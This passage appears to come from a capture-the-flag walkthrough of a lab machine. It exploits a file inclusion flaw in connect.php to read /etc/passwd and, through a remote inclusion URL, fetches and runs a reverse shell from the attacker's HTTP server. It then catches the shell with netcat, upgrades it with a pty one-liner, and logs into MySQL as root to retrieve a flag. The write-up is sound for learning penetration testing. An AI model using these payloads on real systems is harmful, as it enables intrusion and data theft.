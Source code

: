 ```
192.168.1.104/connect.php?file=/etc/passwd
```

![](https://i1.wp.com/1.bp.blogspot.com/-rn8kNrrCMYs/XatDPyFIbfI/AAAAAAAAhC8/MWIEeet_WS0NFM8Sq8Yo5PjEscPrCCQogCLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

We edited our shell.php, to enter the attacker machine IP address. And then closed the file after saving it. Now we need to send this to the target machine. Hence, we started a python http server using the one-liner showed below.

```
nano shell.php  
python -m SimpleHTTPServer
```

![](https://i1.wp.com/1.bp.blogspot.com/-ivO_XM0XXuU/XatDQq34CTI/AAAAAAAAhDE/WCff6o9QMNIWwEmxH1odXHrqRPwM9LNwACLcBGAsYHQ/s1600/17.png?w=687&ssl=1)

We are gonna capture a reverse connection using the netcat. So we need to initiate a listener on the port mentioned in the shell file.

```
nc -lvp 1234
```

After starting the listener on the target machine, we will run the shell on the target machine using the File Inclusion Vulnerability.

```
192.168.1.104/connect.php?file=http://192.168.1.103:8000/shell.php
```

![](https://i1.wp.com/1.bp.blogspot.com/-4cto9TGIvZE/XatDQm52N6I/AAAAAAAAhDI/zUOsGalsAQ8xRcWLaIOI5YM1W3DOp-IVwCLcBGAsYHQ/s1600/19.png?w=687&ssl=1)

Upon execution, the shell gave us a session to the target machine. As seen in the image given below, it wasn’t a proper shell. So, we needed a python one liner to convert it into a proper shell.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

We used netstat command to check for the IP address and ports the target machine is listening on and found that a web service (3306) is allowed for localhost only. The most common service to run on the port 3306 is MySQL. Let’s enumerate in that direction.

```
netstat -antp
```

![](https://i1.wp.com/1.bp.blogspot.com/-mPrcYjn9GL4/XatDR0fPdMI/AAAAAAAAhDQ/osGjIiqt7sscYH3j4C9Z8fDFYBhxiBCTwCLcBGAsYHQ/s1600/20.png?w=687&ssl=1)

We tried to login in the MySQL database as the root user. After logging in the MySQL, we enumerated the databases. Here we found a database named ‘flag’. We looked inside the tables of flag database. Here we found our second flag Mangalyaan Flag.

```
mysql -u root   
show databases;  
use flag;  
show tables;  
select \* from flag;
```
